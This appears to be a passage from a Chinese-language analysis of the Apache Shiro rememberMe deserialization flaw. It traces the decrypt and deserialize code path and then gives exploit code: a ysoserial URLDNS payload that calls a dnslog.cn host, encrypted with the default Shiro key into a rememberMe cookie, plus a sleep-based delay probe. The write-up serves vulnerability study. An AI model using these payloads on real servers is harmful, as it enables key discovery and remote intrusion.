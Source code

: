  - 进入decrypt方法

 ```
     protected byte[] decrypt(byte[] encrypted) {
        byte[] serialized = encrypted;
        CipherService cipherService = getCipherService();
        if (cipherService != null) {
            ByteSource byteSource = cipherService.decrypt(encrypted, getDecryptionCipherKey());
            serialized = byteSource.getBytes();
        }
        return serialized;
    }
 ```
 
 **Java序列化头部**
 ![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20201016124357.png)
 
 - 回到convertBytesToPrincipals方法

 这里调用了deserialize处理上一步解密的结果
 
 - 跟进`org/apache/shiro/io/DefaultSerializer.java:67`

**readObject方法**
 ![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20201016124819.png)

 
 - 流程图

 ![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20201016124958.png)
 
## Shiro key的获取方式

### URLDNS

```
import ysoserial.payloads.URLDNS;

public class ShiroKey {
    public static void main(String[] args) throws Exception {
        URLDNS urldns = new URLDNS();
        Object object = urldns.getObject("http://oq287o.dnslog.cn");
        byte[] buf = Serializables.serialize(object);

        String key = "kPH+bIxk5D2deZiIxcaaaA==";
        String rememberMe = EncryptUtil.shiroEncrypt(key, buf);
        System.out.println(rememberMe);
    }
}
```

### 延时

```
try{ 
	if(!(System.getProperty("os.name").toLowerCase().contains("win"))){ 
		Thread.currentThread().sleep(10000L); 
		} 
	} catch(Exception e){}
```
